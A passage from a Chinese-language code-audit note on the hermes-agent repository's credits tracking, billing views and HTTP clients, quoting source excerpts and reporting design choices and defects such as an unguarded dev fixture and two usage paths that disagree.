

# r9c 底稿 · 计费、额度与三个具体 HTTP 客户端

> 底稿定位:证据层,面向"要凭它重实现同等机制的自己"。求全求证,不求好读。
> 溯源约定:凡对 hermes-agent 行为的断言,锚点 `路径:行号 @ 863e313` **单独成行、置于代码块之前**,
> 代码块为逐字原文摘录。非源码块用 ```text / ```verify / ```console 显式标注。
> 基线:`/home/user/hermes-agent` @ `863e31318553cda8ad61df681d08175364d4164b`(只读,本轮全程未改)。

本片 10 个文件(3,476 行):

| 文件 | 行 | 一句话 |
|---|---|---|
| `agent/credits_tracker.py` | 852 | 从推理响应头解析 Nous 额度 + 通知策略 + 冷启动播种 |
| `agent/billing_view.py` | 511 | `/api/billing/state` 的解析与"能不能刷卡"的判定 |
| `agent/subscription_view.py` | 507 | `/api/billing/subscription` 的解析与套餐目录/管理链接 |
| `tools/microsoft_graph_client.py` | 400 | Graph REST 客户端(重试 + 分页 + 流式下载) |
| `tools/xai_http.py` | 329 | xAI 直连 HTTP 的凭据/base_url 解析与存储选项 |
| `agent/billing_usage.py` | 323 | `/usage` 与 `/subscription` 的美元用量条模型 |
| `tools/microsoft_graph_auth.py` | 245 | Graph app-only(client_credentials)取 token + 缓存 |
| `agent/aux_accounting.py` | 138 | 辅助模型调用的用量归账(ContextVar 环境上下文) |
| `agent/billing_links.py` | 124 | provider → 充值页链接的映射表 |
| `tools/openrouter_client.py` | 47 | OpenRouter 共享异步客户端(一层薄壳) |

---

## 0. 一页地图:钱在这个 harness 里走几条完全独立的路

读完这 10 个文件后最反直觉的一点是:**"我还剩多少钱"这个问题在本仓库有三个互不相通的数据源,
五个模块各自把它算了一遍。**



三条路的**共同点只有一个**:全都 fail-open——任何一环取不到数,界面少显示一块,绝不炸掉会话。
**分歧点**:它们对同一件事("这个月的订阅额度用掉了多少")各自实现了一遍换算与钳位,
其中两份读的甚至是**两个不同的 wire 字段**(第 2 节实测:同一份账号数据,一个说 90%,一个说 10%)。

---

## 1. 额度追踪(`agent/credits_tracker.py`,852 行)

### 1.1 解决什么问题:不额外发一次请求,就知道余额

最容易想歪的设计是"每轮问一次余额 API"。本仓库的选择是:**余额由推理响应自己带回来**——
Nous 网关在每个推理响应的 HTTP 头里塞一整套 `x-nous-credits-*`,agent 顺手解析。
代价为零(响应本来就要读),延迟为零,而且天然与那次扣费同步。

`agent/credits_tracker.py:9-23 @ 863e313`

```
Header schema (x-nous-credits-* family):
    x-nous-credits-version                    contract/schema version
    x-nous-credits-remaining-micros           total remaining balance (micros)
    x-nous-credits-remaining-usd              same, formatted USD string
    x-nous-credits-subscription-micros        subscription balance (SIGNED; may be negative/debt)
    x-nous-credits-subscription-usd           same, formatted USD string
    x-nous-credits-subscription-limit-micros  subscription cap (PAIRED/optional)
    x-nous-credits-subscription-limit-usd     same, formatted USD string (PAIRED/optional)
    x-nous-credits-rollover-micros            rolled-over balance (micros)
    x-nous-credits-purchased-micros           purchased balance (micros)
    x-nous-credits-purchased-usd              same, formatted USD string
    x-nous-credits-denominator-kind           "subscription_cap" | "none"
    x-nous-credits-paid-access                "true" | "false" (STRING!)
    x-nous-credits-disabled-reason            reason string (header omitted when null)
    x-nous-credits-as-of-ms                   server-side timestamp (ms epoch)
```

两条钱的纪律,值得直接抄进自己的 harness:

1. **金额只用 micros 整数**(百万分之一美元),永不用 float。
2. **`*_usd` 字符串原样保留、从不回解析成数**——它是服务端的显示口径,客户端没有权利重新格式化。

`agent/credits_tracker.py:29-30 @ 863e313`

```
Money is handled as micros ints only; *_usd values are preserved verbatim as
the raw strings the server sent (never re-parsed to float).
```

配套的解析函数刻意不写 `int(float(x))`:

`agent/credits_tracker.py:65-72 @ 863e313`

```
    The contract guarantees every ``*_micros`` field is an integer string —
    we parse with ``int()`` directly, NOT ``int(float(...))``, to avoid float-
    precision loss above 2**53 that would silently corrupt large money values.

    Returns the parsed int, or ``_SENTINEL`` if the value is not a valid integer
    string (including float-shaped strings like "1.5").  The sentinel lets callers
    detect the failure and return None from the overall parse (fail-hard-on-bad-
    input, not silently coerce).
```

*为什么用 `_SENTINEL` 而不是 `None`:因为 `None` 在这套 header 里是合法的"字段缺失",
必须和"字段存在但解析失败"分开。用 `None` 当失败标记会把这两件事混掉。*

### 1.2 热路径先探一下,再复制整个 header 字典

`parse_credits_headers` 在**每一次 API 响应**上都会被调用,而绝大多数用户不用 Nous。
所以它先做一次 O(n) 的探测,确认哨兵头存在,才去分配那个小写化的字典。

`agent/credits_tracker.py:467-473 @ 863e313`

```
        # Cheap probe before the full lowercase copy: bail when the version
        # sentinel header is absent (the common case for non-Nous providers, on
        # every API call) — skips allocating a dict over the whole response's
        # headers on the hot path, while preserving case-insensitivity. Behaviour
        # is identical: a missing version header was already a None return below.
        if not any(k.lower() == "x-nous-credits-version" for k in headers):
            return None
```

### 1.3 解析契约:整体 all-or-nothing,只有一处例外

任何一个字段坏了 → 整个 parse 返回 `None`(miss),调用方保留上一次的已知状态,而不是写入半个状态。
唯一的"半对也算过"是 `subscription_limit_*` 这一**对**字段:

`agent/credits_tracker.py:566-577 @ 863e313`

```
        if sub_limit_micros_raw is not None and sub_limit_usd_raw is not None:
            # Both present — validate both; any invalid → return None (bad data)
            lm = _safe_int(sub_limit_micros_raw)
            if lm is _SENTINEL:
                return None
            if lm < 0:
                return None
            if not _validate_usd(sub_limit_usd_raw):
                return None
            subscription_limit_micros = lm
            subscription_limit_usd = sub_limit_usd_raw
        # else: half-pair or both absent → leave both None, parse continues
```

**取舍**:限额只是"分母",没有它整个状态仍然可用(只是算不出百分比);而余额本身错了,
整个状态就没有意义。所以前者 fail-open、后者 fail-hard。这是一条很值得复用的分界线:
**必需字段坏 → 整体作废;可选派生字段坏 → 降级但保留主干。**

`version != 1` 的处理也有讲究:版本更高时只 warn **一次**(进程级 latch),然后静默 miss。

`agent/credits_tracker.py:486-493 @ 863e313`

```
        if version_val != 1:
            if version_val > 1 and not _version_warning_emitted:
                _version_warning_emitted = True
                logger.warning(
                    "credits header version %d unsupported, ignoring — update Hermes",
                    version_val,
                )
            return None
```

### 1.4 两个派生属性:耗尽判定与已用比例

**耗尽只看 `paid_access`,绝不看 `remaining == 0`。** 这是本文件最重要的一条产品判断:

`agent/credits_tracker.py:126-134 @ 863e313`

```
    @property
    def depleted(self) -> bool:
        """True when the account has lost paid access.

        Keyed off ``paid_access == False`` ONLY — never ``remaining_micros == 0``,
        which would give a false positive whenever the balance is zero but access
        is still live (e.g. subscription renewal pending).
        """
        return not self.paid_access
```

**已用比例只看限额字段本身,不看 `denominator_kind`。**

`agent/credits_tracker.py:136-150 @ 863e313`

```
    @property
    def used_fraction(self) -> Optional[float]:
        """Fraction of the subscription cap consumed, in [0.0, 1.0].

        Computable only when ``subscription_limit_micros`` is a truthy (non-zero,
        non-None) int.  Guarded on the LIMIT FIELD, not ``denominator_kind`` —
        the limit field is the real denominator; ``denominator_kind`` is metadata.
        Returns None when there is no computable denominator (no limit, or limit==0).
        """
        if not isinstance(self.subscription_limit_micros, int):
            return None
        if self.subscription_limit_micros <= 0:
            return None
        used = self.subscription_limit_micros - self.subscription_micros
        return max(0.0, min(1.0, used / self.subscription_limit_micros))
```

*"用真正的分母做守卫,而不是用声明分母类型的元数据做守卫"——元数据可能过期或缺失,
分母字段是不是 0 是可以直接验证的事实。*

注意 `subscription_micros` 是**唯一允许为负**的字段(欠费),`used_fraction` 的 `min(1.0, ...)`
钳位就是给这种情况准备的。

### 1.5 通知策略:一个纯函数 + 一个被就地修改的 latch

`evaluate_credits_notices(state, latch, *, model_is_free)` 是纯函数(无 I/O、不 import agent),
返回 `(to_show, to_clear)`,由调用方决定怎么渲染。**这是把"策略"从"驱动"里摘出来的标准做法**:
TUI 渲染成状态栏,CLI 渲染成一行控制台输出,gateway 渲染成一个事件,策略一份。

策略的全部状态装在一个 dict 里,而且这个 dict 的形状由本模块独占:

`agent/credits_tracker.py:181-192 @ 863e313`

```
def new_credits_latch() -> dict:
    """Fresh notice latch in the shape :func:`evaluate_credits_notices` expects.

    The policy owns this schema — every producer (agent build, lazy re-init,
    tests) must build the latch through here so a new gate key lands everywhere
    at once instead of drifting across hand-rolled literals."""
    return {
        "active": set(),
        "seen_below_90": False,
        "usage_band": None,
        "seen_grant_unspent": False,
    }
```

*这段注释本身就是 R9B 那条"同一份知识写第二遍会漂开"的解药:
不是靠约定"大家记得加同一个 key",而是让所有生产者只能从一个工厂函数拿。*

#### 两道"穿越门"(crossing gate)——本文件最精巧的设计

问题:一个刚打开的会话观察到"已用 92%",该不该报警?
- 如果报,那么每次开会话都会被同一条消息骚扰(这是**状态**,不是**事件**)。
- 如果不报,那么真正在会话中途冲过 90% 的用户就收不到提醒。

解法:把"报警"绑在**穿越**上,而不是绑在**取值**上。会话必须先观察到低于阈值,才允许后续报警。

`agent/credits_tracker.py:298-312 @ 863e313`

```
    _lowest_band = CREDITS_USAGE_BANDS[0][0]
    if uf is not None and uf < _lowest_band:
        latch["seen_below_90"] = True  # gate opened: usage-band notices may now fire

    # Grant-spent crossing gate: grant_spent may fire only after this session
    # has OBSERVED the grant meaningfully unspent (≥1¢ left — see
    # GRANT_UNSPENT_MIN_MICROS). Opening at grant-spent is a steady STATE, not
    # an event — /usage carries it; only a live in-session crossing announces.
    # Unlike seen_below_90, seeds must NOT prime this gate.
    if (
        uf is not None
        and uf < 1.0
        and state.subscription_micros >= GRANT_UNSPENT_MIN_MICROS
    ):
        latch["seen_grant_unspent"] = True
```

两道门的**行为刻意不同**,理由写在冷启动播种里(见 1.6):用量档位在开局就该报(用户想知道),
"月度赠额刚刚花完"在开局不该报(它是常态,`/usage` 里查得到)。

`GRANT_UNSPENT_MIN_MICROS = 10_000`(1 分钱)这个下限也不是随手写的:

`agent/credits_tracker.py:174-178 @ 863e313`

```
# grant_spent crossing gate (see evaluate_credits_notices). 1¢: portal-seeded
# states derive micros from float dollars and can carry sub-cent residue where
# the inference headers report exactly 0 — without this floor such a seed
# opens the gate and the first header re-creates the at-open nag.
GRANT_UNSPENT_MIN_MICROS = 10_000
```

*这是"两个数据源精度不同"直接咬出来的 bug:portal 给的是 float 美元(转 micros 有残渣),
header 给的是精确整数。一个纯粹的 `> 0` 判断在这两个源之间就会摇摆。*

#### 三条通知线的互斥关系

- **用量档位**(`credits.usage`):50/75/90 三档,永远只显示**已达到的最高档**,换档即替换整行,
  跌回最低档以下则整条清除。这是"一条会升级的状态行",不是三条堆叠的通知。
- **`grant_spent`**:只有在**持有 top-up 余额**时才有意义(不然就是纯粹的耗尽)。
- 关键:**一旦账户有 top-up 余额,用量档位整条被压制**——因为这时订阅上限已经不是正确的分母了。

`agent/credits_tracker.py:331-338 @ 863e313`

```
    if state.purchased_micros > 0:
        current_band = None
    grant_cond = (
        state.denominator_kind == "subscription_cap"
        and uf is not None
        and uf >= 1.0
        and state.purchased_micros > 0
    )
```

- **`depleted`**:粘性错误条;但**当前模型是免费模型时压制**——免费模型上账户欠费照样能推理,
  这时报错只是噪音。而且压制**不会**触发"已恢复"的成功提示:

`agent/credits_tracker.py:420-436 @ 863e313`

```
    elif "credits.depleted" in active and not show_depleted:
        to_clear.append("credits.depleted")
        active.discard("credits.depleted")
        if not depleted_cond:
            # Genuine recovery (paid_access flipped back True): also emit the
            # success notice. A clear caused by switching to a free model while
            # still depleted must NOT claim access was restored.
            to_show.append(
                AgentNotice(
                    text="✓ Credit access restored",
                    level="success",
                    kind="ttl",
                    ttl_ms=CREDITS_RESTORED_TTL_MS,
                    key="credits.restored",
                    id="credits.restored",
                )
            )
```

*"清除"和"恢复"是两件事——这是很容易写错的一处:清掉一个错误条不等于问题解决了。*

"是不是免费模型"的判定刻意**只用本地数据**、绝不联网:

`agent/credits_tracker.py:231-233 @ 863e313`

```
       *base_url*). PEEK ONLY — a cache miss never triggers a fetch. This is
       CLI/TUI-session best-effort: gateway sessions never run the picker's
       pricing fetch, so suppression there rests entirely on the ``:free``
```

而且失败方向是**故意选定**的:

`agent/credits_tracker.py:236-239 @ 863e313`(承接上段)

```
    Fail-open to False (the depleted notice still shows) on any error: wrongly
    showing the warning is recoverable noise; wrongly hiding it on a paid model
    would mask a real billing block.
```

*两个方向的错误代价不对称时,fail 的方向必须显式选,并把理由写下来。这是本仓库反复出现的模式。*

### 1.6 冷启动:会话一开就要知道自己是不是欠费

只靠 header 的话,用户要先发出第一条消息、等第一个响应回来,才会看到"账户已停用"。
所以有一条播种路径:开局从 Portal 账号接口拉一份,映射成 header 形状的 `CreditsState`。

`agent/credits_tracker.py:757-762 @ 863e313`

```
        return CreditsState(
            remaining_micros=_to_micros(getattr(_acc, "total_usable_credits", None)),
            remaining_usd=_to_usd(getattr(_acc, "total_usable_credits", None)),
            subscription_micros=_to_micros(getattr(_acc, "subscription_credits_remaining", None)),
            subscription_usd=_to_usd(getattr(_acc, "subscription_credits_remaining", None)),
            subscription_limit_micros=_to_micros(_monthly) if _has_cap else None,
```

播种时**只预置 `seen_below_90`,绝不预置 `seen_grant_unspent`**,这正是 1.5 里两道门行为不同的落地:

`agent/credits_tracker.py:788-793 @ 863e313`

```
    _latch = getattr(agent, "_credits_latch", None)
    if isinstance(_latch, dict) and state.used_fraction is not None:
        # Prime ONLY seen_below_90 (open-high band warnings are wanted at open).
        # Never prime seen_grant_unspent here: a seed observing grant-spent is a
        # steady state, and priming it would revive the every-session nag.
        _latch["seen_below_90"] = True
```

真实的 Portal 拉取是**发射后不管**的守护线程——绝不让一次慢网络拖住 "session ready":

`agent/credits_tracker.py:828-845 @ 863e313`

```
        # Real portal fetch is FIRE-AND-FORGET: a slow/unreachable portal must never
        # delay session "ready". A daemon thread hydrates + emits when it resolves,
        # re-checking idempotency first (a live inference header may land before it).
        import threading

        def _bg_seed() -> None:
            try:
                from hermes_cli.nous_account import get_nous_portal_account_info
                info = get_nous_portal_account_info(force_fresh=True)
                if getattr(agent, "_credits_state", None) is not None:
                    return  # a live inference header beat us — don't clobber it
                state = _credits_state_from_account(info)
                if state is not None:
                    _hydrate_seed_state(agent, state)
            except Exception:
                logger.debug("credits ▸ session-start seed (background) failed", exc_info=True)

        threading.Thread(target=_bg_seed, name="credits-seed", daemon=True).start()
```

### 1.7 并发:latch 没有锁,播种线程与主轮次共享它(■,低危)

`_bg_seed` 里的 `if ... is not None: return` 是一次**检查后再动作**(TOCTOU):
检查通过之后、`_hydrate_seed_state` 写入之前,主线程完全可能刚捕获到一个真实 header 并写入
`agent._credits_state`——这时播种线程会用**较旧的 Portal 快照覆盖较新的 header 状态**。

更进一步:`_hydrate_seed_state` 会调用 `agent._emit_credits_notices()`,
它读写同一个 `_credits_latch`(内含一个 `set` 和两个标志位),而**全仓没有任何锁保护它**。

搜索面(负结论的成本):在 `/home/user/hermes-agent` 下用
`grep -n "Lock\|RLock\|acquire\|with _" agent/credits_tracker.py` 搜整文件 → 0 命中;
再用 `grep -rn "_credits_latch" --include=*.py .` 排除 `./tests` 后共 6 处引用
(`agent/credits_tracker.py:181,788`、`agent/agent_init.py:926,928`、`run_agent.py:3844,3928,3930`),
**没有一处带同步原语**。

```verify
cd /home/user/hermes-agent && grep -n "Lock\|RLock\|acquire\|with _" agent/credits_tracker.py; echo "exit=$?"
cd /home/user/hermes-agent && grep -rn "_credits_latch" --include=*.py . | grep -v "^./tests"
```

**评级**:低危。CPython 下 dict/set 的单次操作在 GIL 下是原子的,不会结构性损坏;
最坏结果是一条通知重复发或丢一次。作者在 `_hydrate_seed_state` 的 docstring 里写了
"Safe to call from a worker thread",但那句话说的是 emit 回调可以离线程跑,
**并没有断言 latch 本身无竞态**——这两件事被同一个词盖住了。

`agent/credits_tracker.py:781-783 @ 863e313`

```
    gate (the cold-start snapshot IS the first observation, so a session that opens
    already in a band warns immediately — the live header path keeps true crossing
    semantics), then emits. Safe to call from a worker thread: emit already runs
```

### 1.8 开发夹具:一道被隔壁模块绕开的防泄漏门(■,本片最实际的一条)

`credits_tracker` 的夹具有一道**硬防泄漏门**:必须同时开着 `HERMES_DEV_CREDITS` 这个开关,
`HERMES_DEV_CREDITS_FIXTURE` 才生效。理由写得很清楚——防止一个残留在 shell profile /
容器环境里的环境变量在真实账号上伪造余额。

`agent/credits_tracker.py:707-716 @ 863e313`

```
    Hard prod-leak guard: a fixture applies ONLY when the dev flag HERMES_DEV_CREDITS
    is also on, so a stray HERMES_DEV_CREDITS_FIXTURE (leaked into a shell profile, a
    container env, a launch plist, …) can never surface fabricated balances/notices
    on a real account.
    """
    if not is_truthy_value(os.environ.get("HERMES_DEV_CREDITS")):
        return None
    raw = os.environ.get("HERMES_DEV_CREDITS_FIXTURE", "").strip()
    if not raw:
        return None
```

**但同一个环境变量还有第二个消费者,它没有这道门。**

`agent/billing_usage.py:264-272 @ 863e313`

```
def _dev_fixture_usage_model() -> Optional[UsageModel]:
    """Map ``HERMES_DEV_CREDITS_FIXTURE`` to a usage model for offline UX work.

    Recognized names: ``free | healthy | low | topup | depleted``. Returns
    ``None`` when the env var is unset (real portal path runs).
    """
    name = (os.getenv("HERMES_DEV_CREDITS_FIXTURE") or "").strip().lower()
    if not name:
        return None
```

实测(`HERMES_DEV_CREDITS` **未设置**,只设 `HERMES_DEV_CREDITS_FIXTURE=depleted`):

```console
D1 credits_tracker.dev_fixture_credits_state() = None
D2 billing_usage._dev_fixture_usage_model()    = (True, 'depleted', 0.0)
```

也就是说:那句"can never surface fabricated balances on a real account"在
`/usage` 的美元条这条路上**不成立**——用户会看到一个伪造的 "$0.00 / 已耗尽"。

**同一个变量的两套名字空间还漂开了。**12 个名字里只有 2 个(`healthy` / `depleted`)被两边都认:

```console
E free             credits_tracker=False billing_usage=True
E healthy          credits_tracker=True  billing_usage=True
E mid              credits_tracker=False billing_usage=True
E low              credits_tracker=False billing_usage=True
E topup            credits_tracker=False billing_usage=True
E top-up           credits_tracker=False billing_usage=True
E depleted         credits_tracker=True  billing_usage=True
E sub_50pct        credits_tracker=True  billing_usage=False
E sub_75pct        credits_tracker=True  billing_usage=False
E sub_90pct        credits_tracker=True  billing_usage=False
E grant_exhausted  credits_tracker=True  billing_usage=False
E debt             credits_tracker=True  billing_usage=False
```

后果不只是"名字对不上":`billing_usage` 认不出名字时返回 `None`,于是
`build_usage_model` **落回真实 Portal 网络请求**——一个开发者设了
`HERMES_DEV_CREDITS_FIXTURE=sub_90pct` 想离线调 UI,会发现 `/usage` 仍然在打网络。

复现命令(可重跑,不需要凭据):

```verify
cd /home/user/hermes-agent && HERMES_DISABLE_LAZY_INSTALLS=1 HERMES_DEV_CREDITS_FIXTURE=depleted \
  /home/user/hermes-venv/bin/python -c "
import agent.credits_tracker as ct, agent.billing_usage as bu
print('credits_tracker:', ct.dev_fixture_credits_state())
m = bu._dev_fixture_usage_model()
print('billing_usage  :', None if m is None else (m.available, m.status, m.total_spendable_usd))"
```

---

## 2. 计费视图"三兄弟"其实是五个,而且已经漂开了

任务书问的是 `billing_view` / `subscription_view` / `billing_usage` 三个。
实际读下来,**同一个问题域里有五个模块**,分属三个数据源。

### 2.1 各自服务谁、数据源是什么

| 模块 | 数据源 | 服务的界面 | 钱的类型 |
|---|---|---|---|
| `agent/credits_tracker.py` | 推理响应头 | 状态栏通知 | micros 整数 |
| `agent/billing_usage.py` | Portal 账号快照 | `/usage` + `/subscription` 的两根条 | float 美元 |
| `agent/account_usage.py` | Portal 账号快照 | 旧版 `/usage` 文本行(fallback) | float 美元 |
| `agent/billing_view.py` | `GET /api/billing/state` | 充值、卡片、自动续费 | `Decimal` |
| `agent/subscription_view.py` | `GET /api/billing/subscription` | 套餐档位、升降级 | `Decimal` |

**三种钱的表示法并存**:micros 整数 / float 美元 / `Decimal`。各自的理由都成立:

`agent/billing_view.py:11-12 @ 863e313`

```
Money discipline: the server emits decimal STRINGS (``"142.5"``, not fixed 2dp).
We keep them as :class:`decimal.Decimal` end-to-end and only format for display.
```

`agent/billing_usage.py:10-11 @ 863e313`

```
``paid_service_access_info`` carries the three dollar magnitudes we render
(despite the legacy ``*_credits`` field names, these are USD floats):
```

*可迁移的教训:钱的表示法应当由**上游的 wire 形状**决定,而不是由下游偏好决定——
上游给整数就用整数,给十进制字符串就用 Decimal,给 float 就承认它是 float。
硬要统一成一种,反而会在转换处引入舍入(1.5 节那个 1 分钱下限就是这么来的)。*

### 2.2 实测:同一份账号数据,两个 `/usage` 路径给出相反的答案(■,本片最严重的正确性问题)

`billing_usage` 读的是 `paid_service_access_info.subscription_credits_remaining`:

`agent/billing_usage.py:157-159 @ 863e313`

```
        sub_remaining = _finite(getattr(access, "subscription_credits_remaining", None)) if access else None
        topup_remaining = _finite(getattr(access, "purchased_credits_remaining", None)) if access else None
        total_usable = _finite(getattr(access, "total_usable_credits", None)) if access else None
```

`account_usage` 读的是 `subscription.credits_remaining`——**另一个 JSON 块里的另一个字段**:

`agent/account_usage.py:171-181 @ 863e313`

```
        if sub is not None:
            monthly_credits = getattr(sub, "monthly_credits", None)
            sub_remaining = getattr(sub, "credits_remaining", None)
            if (
                _is_finite_num(monthly_credits)
                and monthly_credits > 0
                and _is_finite_num(sub_remaining)
                and sub_remaining <= monthly_credits
            ):
                used = monthly_credits - sub_remaining
                used_pct = max(0.0, min(100.0, used / monthly_credits * 100.0))
```

这两个字段确实来自 wire 上的两个不同对象:

`hermes_cli/nous_account.py:687-694 @ 863e313`

```
    return NousPortalSubscriptionInfo(
        plan=_coerce_str(value.get("plan")),
        tier=_coerce_int(value.get("tier")),
        monthly_charge=_coerce_float(value.get("monthly_charge")),
        monthly_credits=_coerce_float(value.get("monthly_credits")),
        current_period_end=_coerce_str(value.get("current_period_end")),
        credits_remaining=_coerce_float(value.get("credits_remaining")),
        rollover_credits=_coerce_float(value.get("rollover_credits")),
    )
```

`hermes_cli/nous_account.py:713-715 @ 863e313`

```
        subscription_credits_remaining=_coerce_float(value.get("subscription_credits_remaining")),
        purchased_credits_remaining=_coerce_float(value.get("purchased_credits_remaining")),
        total_usable_credits=_coerce_float(value.get("total_usable_credits")),
```

**实测**:构造一份 `monthly_credits=20`、`subscription.credits_remaining=18`、
`paid_service_access_info.subscription_credits_remaining=2` 的账号,三个消费者的结论:

```console
billing_usage  plan_bar: UsageBar(kind='plan', remaining_usd=2.0, total_usd=20.0, spent_usd=18.0) | pct_used = 90 | status = low
account_usage  window  : (AccountUsageWindow(label='Subscription', used_percent=10.0, reset_at=None, detail='$18.00 of $20.00 left'),)
credits_tracker        : sub_micros = 2000000 | limit = 20000000 | used_fraction = 0.9
```

同一个 `/usage` 命令,主路径说 **90% 已用、余额过低**,fallback 路径说 **10% 已用、还剩 $18**。
而 CLI 明确写了谁是真相、谁是 fallback:

`hermes_cli/cli_billing_mixin.py:27-30 @ 863e313`

```
        Prefers the shared dollar usage model (``agent.billing_usage`` — two-bar
        plan/top-up view, dollars-only, the /usage + /subscription source of
        truth). Falls back to the legacy ``nous_credits_lines`` text only when the
        model is unavailable. Agent-independent (a portal fetch gated on "a Nous
```

**诚实边界(未取证)**:我没有真实 Portal 账号,**无法证明服务端会让这两个字段取到不同的值**。
如果 NAS 永远在两处发同一个数,这条就是**潜伏**而非**在线**缺陷。但即便如此,
它仍然是一条真实的耦合:两个字段的同步是一条**没有任何测试或断言保护的隐含契约**。

**边界条件的处理也不同**(这一层与上面的字段选择无关,是独立的第二处漂移):

| 情形 | `account_usage` | `billing_usage` | `credits_tracker` |
|---|---|---|---|
| 余额 > 上限(rollover 跨期) | 整个 gauge 不显示,退回纯数值行 | 钳位到上限,照常显示条 | `used_fraction` 钳到 0.0 |
| 余额为负(欠费) | `used_pct` 钳到 100 | `remaining` 钳到 0 | `used_fraction` 钳到 1.0 |
| 非有限数(NaN/Inf) | `_is_finite_num` 拒绝 | `_finite` 拒绝 | 不适用(整数解析) |

三份实现、三套钳位策略,同一个概念。

### 2.3 两处逐字副本(◇/■-lite)

`BillingState` 和 `SubscriptionState` 各自带了一对 `is_admin` / `can_change_plan` 属性,
两段代码**逐字节相同**:

`agent/billing_view.py:176-190 @ 863e313`

```
    @property
    def is_admin(self) -> bool:
        """Deprecated/display only — a legacy OWNER/ADMIN check.

        NOT a capability check; use :attr:`can_change_plan` for gating billing
        plan-change actions.
        """
        return (self.role or "").upper() in ("OWNER", "ADMIN")

    @property
    def can_change_plan(self) -> bool:
        """Server capability when supplied; otherwise the legacy role fallback."""
        if self.can_change_plan_raw is not None:
            return self.can_change_plan_raw
        return self.is_admin
```

`agent/subscription_view.py:119-133 @ 863e313`

```
    @property
    def is_admin(self) -> bool:
        """Deprecated/display only — a legacy OWNER/ADMIN check.

        NOT a capability check; use :attr:`can_change_plan` for gating billing
        plan-change actions.
        """
        return (self.role or "").upper() in ("OWNER", "ADMIN")

    @property
    def can_change_plan(self) -> bool:
        """Server capability when supplied; otherwise the legacy role fallback."""
        if self.can_change_plan_raw is not None:
            return self.can_change_plan_raw
        return self.is_admin
```

```verify
cd /home/user/hermes-agent && diff <(sed -n '176,190p' agent/billing_view.py) <(sed -n '119,133p' agent/subscription_view.py) && echo IDENTICAL
```

角色枚举也抄了两遍(两个 `role:` 字段的行内注释),同样逐字相同。
**目前尚未漂开**,但它正是 R9B 那条病的第 0 天形态:两处独立的权限判定,任何一边加一个新角色
(如 `FINANCE_ADMIN` 走 legacy fallback)都得记得改另一边。

*为什么它没被抽出来:两个 dataclass 都是 `@dataclass(frozen=True)`,共享一个 mixin 会牵扯 MRO
和字段顺序。这是"为了保持数据类扁平而接受一份副本"的合理取舍——但代价应当被记下来。*

### 2.4 `billing_view`:能不能刷卡,是服务端能力 AND 组织开关

`can_charge` 不是角色检查,而是**服务端授予的能力 × 每组织的 kill switch**:

`agent/billing_view.py:192-204 @ 863e313`

```
    @property
    def can_charge(self) -> bool:
        """True when the UI should offer charge/auto-reload actions.

        Uses the server-granted plan-change capability (``can_change_plan``,
        which itself falls back to the legacy OWNER/ADMIN role check when the
        server omits ``canChangePlan``) AND the per-org kill-switch. This lets
        the server grant charge capability to non-OWNER/ADMIN roles (e.g.
        FINANCE_ADMIN) via ``canChangePlan``, instead of hard-coding the
        deprecated 3-role admin check. (The server still enforces; this is
        just for graying out actions the user can't take.)
        """
        return self.can_change_plan and self.cli_billing_enabled
```

*"服务端仍然强制执行;这里只是为了把用户点不了的按钮变灰"——把客户端能力判定的定位写清楚,
避免下一个读者把它当成安全边界。这句话应当出现在每一个客户端权限判定的 docstring 里。*

幂等键的用法也值得抄:

`agent/billing_view.py:467-475 @ 863e313`

```
def new_idempotency_key() -> str:
    """Fresh UUID for a user-confirmed purchase (reuse on retry of the SAME buy).

    The ``Idempotency-Key`` header is mandatory on ``POST /charge``; generate one
    per confirmed purchase and reuse it across retries so a double-submit collapses
    to a single charge. Never reuse a key across different amounts (the server
    returns 409 idempotency_conflict).
    """
    return str(uuid.uuid4())
```

金额校验刻意**镜像服务端规则**、并声明服务端才是权威:

`agent/billing_view.py:493-497 @ 863e313`

```
    """Validate a custom charge amount against bounds + 2dp (multipleOf 0.01).

    Mirrors the server's accept/reject so the UI can give instant feedback rather
    than round-tripping a sure-to-fail charge. The server is still authoritative.
    """
```

*这是"客户端复制服务端规则"的正确写法:承认这是一份副本、说明为什么值得复制(即时反馈)、
并指明权威在哪。相比之下 2.2 那三份 `% used` 谁也没声明自己是副本。*

### 2.5 `subscription_view`:预览-提交与"不认识就当拒绝"

`SubscriptionChangePreview.effect` 有四种取值,而**解析不出来时一律当 `blocked`**:

`agent/subscription_view.py:199-211 @ 863e313`

```
    return SubscriptionChangePreview(
        # An unrecognized/missing effect is treated as ``blocked`` — fail safe, never
        # charge on a malformed quote.
        effect=effect if isinstance(effect, str) else "blocked",
        reason=payload.get("reason") or None,
        current_tier_id=payload.get("currentTierId"),
        current_tier_name=payload.get("currentTierName"),
        target_tier_id=payload.get("targetTierId"),
        target_tier_name=payload.get("targetTierName"),
        monthly_credits_delta=parse_money(payload.get("monthlyCreditsDelta")),
        amount_due_now_cents=int(cents) if isinstance(cents, (int, float)) else None,
        effective_at=payload.get("effectiveAt") or None,
    )
```

*注意这是全文件唯一一处 **fail-closed**。其余全部 fail-open。判据很干净:
**会花钱的路径 fail-closed,只是显示的路径 fail-open。***

`_coalesce` 这个小函数解决的是一个很容易踩的坑:

`agent/subscription_view.py:163-172 @ 863e313`

```
def _coalesce(*vals: Any) -> Any:
    """First non-``None`` value (preserves a legit ``0``/``0.0``, unlike ``or``).

    NAS sends ``0`` for the free tier's ``tierOrder`` / ``dollarsPerMonth``; a plain
    ``x or default`` would drop those, so coalesce on ``None`` specifically.
    """
    for v in vals:
        if v is not None:
            return v
    return None
```

`selectable_tiers` 把"可选档位"的定义收成一处,给 CLI 的免费目录和付费切换选择器共用:

`agent/subscription_view.py:375-382 @ 863e313`

```
    return sorted(
        (
            t
            for t in (state.tiers or ())
            if t.is_enabled and not t.is_current and (t.tier_order or 0) > 0
        ),
